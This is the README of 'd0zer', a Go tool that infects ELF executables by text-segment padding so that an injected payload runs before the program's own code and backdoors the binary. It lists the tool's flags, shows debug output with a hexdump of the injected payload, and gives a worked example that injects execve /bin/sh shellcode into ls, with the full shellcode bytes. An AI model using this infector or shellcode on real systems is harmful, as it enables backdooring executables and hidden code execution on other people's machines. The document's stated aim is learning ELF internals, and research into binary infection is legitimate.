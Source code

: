 # d0zer
Elf binary infector written in Golang. It can be used for infecting executables of type ET_DYN and ET_EXEC with a payload of your creation. Utilizing the classic elf text segment padding algorithm by Silvio Cesar, your payload (parasite) will run before native functionality of the binary effectively backooring the binary.

d0zer currently allows for up to a page size payload (4096 bytes). It is capable of infecting both x86_32 and x86_64  elf executable binaries executables.

# Motivation
My motivations are quite simple, I like doing interesting things with the ELF's and binary infections of a target requires a decent amount of overhead knowledge and skill prequisite to perform it (TO ME), so I set out to learn from papers, books and specs from the past (see references), throwed Golang in the middle for increased difficulty and here I am.

# Usage

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer --help
Usage of ./d0zer:
  -debug
    	see debug out put (generated payload, modifications, etc)
  -noPreserve
    	prevents d0zer from prepending its register preservation routine to your payload
  -noRestoration
    	prevents d0zer from appending register restoration routine to your payload
  -noRetOEP
    	prevents d0zer from appending ret-to-OEP (continue execution after payload) to payload
  -payloadBin string
    	path to binary containing payload
  -payloadEnv string
    	name of the environmental variable holding the payload
  -target string
    	path to binary targetted for infection
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Basic demo (benign) infection can be accomplished with `./dozer -target [path-to-target]`.

<pre> 
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
hello -- this is a non destructive payloadd0zer	     epiloguejmp.go  jmp-to-oep32      jmp-to-oep.o		  non-destructive-payload32.asm  non-destructive-payload64.o  shellcode.c
d0zer.go     experimental    jmp-to-oep32.asm  LICENSE			  non-destructive-payload32.o	 output			      test
elf64	     genpayload.go   jmp-to-oep32.o    non-destructive-payload	  non-destructive-payload64	 README.md		      test.go
epiloguejmp  jmp-to-oep      jmp-to-oep.asm    non-destructive-payload32  non-destructive-payload64.asm  shellcode
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

Supplying `-debug` allows you to see each step of the infection algorithm at work aswell as a hexdump of the payload as it will be in the binary. 

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -debug
[+] Modified entry point from 0x5b20 -> 0x173d1
[+] Text segment starts @ 0x4000
[+] Text segment ends @ 0x173d1
[+] Payload size pre-epilogue 0x5c
[+] Payload size post-epilogue 0x90
------------------PAYLOAD----------------------------
00000000  50 51 53 52 56 57 55 54  41 50 41 51 41 52 41 53  |PQSRVWUTAPAQARAS|
00000010  41 54 41 55 41 56 41 57  eb 00 e8 2b 00 00 00 68  |ATAUAVAW...+...h|
00000020  65 6c 6c 6f 20 2d 2d 20  74 68 69 73 20 69 73 20  |ello -- this is |
00000030  61 20 6e 6f 6e 20 64 65  73 74 72 75 63 74 69 76  |a non destructiv|
00000040  65 20 70 61 79 6c 6f 61  64 0a b8 01 00 00 00 bf  |e payload.......|
00000050  01 00 00 00 5e ba 2a 00  00 00 0f 05 41 5f 41 5e  |....^.*.....A_A^|
00000060  41 5d 41 5c 41 5b 41 5a  41 59 41 58 5c 5d 5f 5e  |A]A\A[AZAYAX\]_^|
00000070  5a 5b 59 58 e8 12 00 00  00 48 83 e8 79 48 2d d1  |Z[YX.....H..yH-.|
00000080  73 01 00 48 05 20 5b 00  00 ff e0 48 8b 04 24 c3  |s..H. [....H..$.|
--------------------END------------------------------
[+] Generated and appended position independent return 2 OEP stub to payload
[+] Increased text segment p_filesz and p_memsz by 144 (length of payload)
[+] Adjusting segments after text segment file offsets by 0x%x 4096
Inceasing pHeader @ index 4 by 0x1000
Inceasing pHeader @ index 5 by 0x1000
Inceasing pHeader @ index 6 by 0x1000
Inceasing pHeader @ index 8 by 0x1000
Inceasing pHeader @ index 10 by 0x1000
[+] Increasing section header addresses if they come after text segment
[+] Extending section header entry for text section by payload len.
[+] (15) Updating sections past text segment @ addr 0x18000
[+] (16) Updating sections past text segment @ addr 0x1d324
[+] (17) Updating sections past text segment @ addr 0x1dc78
[+] (18) Updating sections past text segment @ addr 0x21fd0
[+] (19) Updating sections past text segment @ addr 0x21fd8
[+] (20) Updating sections past text segment @ addr 0x21fe0
[+] (21) Updating sections past text segment @ addr 0x22a58
[+] (22) Updating sections past text segment @ addr 0x22c58
[+] (23) Updating sections past text segment @ addr 0x23000
[+] (24) Updating sections past text segment @ addr 0x23280
[+] (25) Updating sections past text segment @ addr 0x0
[+] (26) Updating sections past text segment @ addr 0x0
[+] writing payload into the binary
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

A custom payload can be injected into the binary with the `-payloadEnv` flag. Below I inject a basic execve /bin/sh shellcode into the ls command as an example.

<pre>
[sad0p@Arch-Deliberate d0zer]$ export DOZEREGG="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadEnv DOZEREGG
[sad0p@Arch-Deliberate d0zer]$ experimental/ls-infected
sh-5.1$ 
</pre>

It's worth noting that code being injected should be position independent.

The `-payloadBin` flag is currently not implemented, it would allow you to supply a PIE (binary), where the contents of the text
segments would serve as the payload.

<pre>
[sad0p@Arch-Deliberate d0zer]$ ./d0zer -target experimental/ls -payloadBin ./non-destructive-payload64
Getting payload from an ELF binary .text segment is not yet supported
[sad0p@Arch-Deliberate d0zer]$ 
</pre>

# Advance Usage

In the event you don't like the routines d0zer add to your code the following flags can be utilized, however your payload
should handle any consequences that come comes from removing them.

The `-noPreserve` flag removes the general purpose register preservation routine. For x86_32 targets this is accomplished via a `pushad` instruction. For x86_64 targets, all general purpose registers are manually pushed onto the stack as the the `pushad` instruction in x86_64 is not valid. The overall purpose of this routine is to preserve register states after execution your payload, when control is handed back to libc runtime routine (OEP) it expects certain register values in order to properly execute. In some contexts, I was able to simply preserve the `RDX` register and no crashes occured, in others (using shellcode I downloaded) preserving `RDX` was not enough. So in order to stay "portable", I thought it was wise to save all state as I wasn't completely sure which registers were needed currently or in the future.

The `-noRestoration` flag removes the restoration routine, which is the opposite of the preservation routine, it performs a `popa` for x86_32 targets and a manual popping of each general purpose register from the stack.

The `-noRetOEP` flag removes the "return to original entry point" routine. This stub enables portability across pie (ET_DYN) and non-pie (ET_EXEC) elf executables. The code extracts the randomized base address after it captures the current instuction pointer value in accumulator register. It then substracts the payload length from the accumulator (+ 5 bytes for the relative call instruction) then adds the offset of the binaries OEP to then perform a `jmp rax` or `jmp eax` (for x86_32) instruction to start executing native/non-parasitic code. If you intend on handling this your self then your code must handle proper exiting of the binary to avoid SIGSEGV.

All preservation, restoration and ret-2-oep shellcode are heavily commented for clarity. Restoration and preservation stubs can be found at the top of the `d0zer.go` source file. The `ret2OEP` routine can be found in `epilogue.go`.

# References

Linux Binary Analysis by Ryan Oneil (Elfmaster), see virus technology chapter.

LPV (a unix virus) written in C utilizing the same algorithm as d0zer written by Elfmaster.
https://bitlackeys.org/projects/lpv.c

Unix ELF parasites and viruses - by Silvio Cesar
https://vx-underground.org/archive/VxHeaven/lib/vsc01.html

Return To Original Entry Point Despite PIE - by s0lden
https://tmpout.sh/1/11.html
